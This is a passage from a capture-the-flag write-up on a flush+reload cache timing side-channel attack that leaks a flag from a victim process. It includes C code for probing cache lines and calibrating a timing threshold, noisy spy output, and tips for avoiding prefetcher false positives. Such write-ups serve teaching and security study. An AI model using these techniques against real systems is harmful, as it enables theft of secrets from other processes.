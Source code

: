 |time| thread | action | response time | result | 
|---|---|---|---|----|
|t0 | spy | probes 0xFF00FF00 | too long |inconclusive|
|t1 | spy | probes 0xFF010180 | too long | inconclusive|
|t2 | encoder| maccess 0xFF010400, goes to cache | too long | --- |
|t3 | spy  | probes 0xFF010400 | short, is on cache!  | leaked a letter!!! |

![Leaking sensitive info about the victim process](https://github.com/Jos3Luiz/pwn2win2020-stolen-backdoor-writeup/blob/master/images/flushdiagram.png)

# Circumvent the problems
Using a sequence like this can cause a lot of noise because of two major problems:
```
unsigned char set0[]="-0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz{}";
watch(base,set0,strlen((const char *)set0));
```
- the set loop is too long that it may not be completed while the interest variable is in the cache
- It is made of sequences that are in order so may induce the hardware prefetcher to pull nearby lines. If the prefetcher pulls the line associated to 0 an then the next 10 ```(160*(sizeof(wchar_t))/64)``` lines it pulls the line associated to the number 1, causing a false positive.

example of the output of this approach:
```
./spy 
REDA-C}-CTF-BR{REDA--TEDREDA---CTEDREDACTEDREDA--C}-CTF-BDCTE-REDA-C}C-TF-{EBRDA-CTEDREDA-CTEDREACTEDREDA--C}-CTF-BR{RED-ACTEDREDA-CTEDREDA-------------------------------CTEDR-D---------------------AC}CTF-BR{REDA-CTEDREDA-CTEDREDA-CTEDREDAC}-CTF-BR{REDA-C--TEDREDRDACTEDR-E--DA---------C}CTF-BR{REDA-CTEDREDA-CTEDREDA-CTEDREDAC}--CTF-BR{REDA-CTEDREDA-----------------CTEDREDA-C--T--EDREDA---C}-EDA-C}-CTF-BR{REDA-C-TEDREDA-TEDREDA-C--TEDRECTF-BR{REDA-CTEDREDA-CTEDREDA-CTED-REDA-C}---CTF-BR{REDA-CTED-EDA-CTEDREDA-CTEDREDC}CTF-BRREDACTEDREDACTEDREDA-CTEDREDA-CCTF-BR{REDA-CTEDREDA-CTED-REDACTEDREDA-}--CTF-BR{RED-ACTEDREDA-CTEDREDA-CTEDREDA--C}CTF-BR{REDACTED-REDA--CTED-REDA-CTEDREA-C}-CTF-BR{REDA-C--EDEA--C-TEDREDA--CTEDREDA-C-}---CTF-B-R{REDA-CTE
```

# Making a more optimized approach 
- inseted of probing for all ascii characters , first discover what characters are being used
- never use a string with sequence chars as argument to the probe loop, always mix them to avoid prefetcher noise.
 

```
char globalVar[4096]={1,4,7,8,5,9,1};
int threshold;

//lets compute the limit of what is cache and what is main memory
void computeThreshold(){

  unsigned long t1,t2;
  unsigned long count=0;
  double total_access,total_evict;

  total_access=0;
  total_evict=0;
  for(unsigned i=0;i<(TOTAL_TESTS *2);i++){
    if (i%2==0){
      maccess((void *)&globalVar[44]);
    }
    t1=probe_timing((void *)&globalVar[44]);
    count++;
    if (i%2==0){
      //printf("time w acess: %lu\n",t1);
      total_access+=(double)t1;
```